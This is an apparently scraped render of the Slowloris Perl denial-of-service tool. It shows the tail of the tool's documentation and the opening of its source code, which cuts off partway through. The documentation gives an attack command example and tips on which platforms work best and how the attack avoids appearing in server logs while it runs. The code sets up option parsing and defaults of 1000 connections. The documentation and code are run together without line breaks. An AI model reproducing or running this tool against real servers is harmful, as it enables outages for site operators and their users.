 time you can abuse more resources.  The usefulness of this particular option has not been thoroughly tested.  Your mileage may vary.  =head3 HTTP Cache Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache  =head1 Issues  Slowloris is known to not work on several servers found in the NOT AFFECTED section above and through Netscalar devices, in it's current incarnation.  They may be ways around this, but not in this version at this time.  Most likely most anti-DDoS and load balancers won't be thwarted by Slowloris, unless Slowloris is extremely distrubted, although only Netscalar has been tested.   Slowloris isn't completely quiet either, because it can't be.  Firstly, it does send out quite a few packets (although far far less than a typical GET request flooder).  So it's not invisible if the traffic to the site is typically fairly low.  On higher traffic sites it will unlikely that it is noticed in the log files - although you may have trouble taking down a larger site with just one machine, depending on their architecture.  For some reason Slowloris works way better if run from a *Nix box than from Windows.  I would guess that it's probably to do with the fact that Windows limits the amount of open sockets you can have at once to a fairly small number.  If you find that you can't open any more ports than ~130 or so on any server you test - you're probably running into this "feature" of modern operating systems.  Either way, this program seems to work best if run from FreeBSD.    Once you stop the DoS all the sockets will naturally close with a flurry of RST and FIN packets, at which time the web server or proxy server will write to it's logs with a lot of 400 (Bad Request) errors.  So while the sockets remain open, you won't be in the logs, but once the sockets close you'll have quite a few entries all lined up next to one another.  You will probably be easy to find if anyone is looking at their logs at that point - although the DoS will be over by that point too.  =head1 What is a slow loris?  What exactly is a slow loris?  It's an extremely cute but endangered mammal that happens to also be poisonous.  Check this out:  http://www.youtube.com/watch?v=rLdQ3UhLoD4#!/usr/bin/perl -w use strict; use IO::Socket::INET; use IO::Socket::SSL; use Getopt::Long; use Config;  $SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors  print &lt;&lt;EOTEXT; CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc:::: CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc::: CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {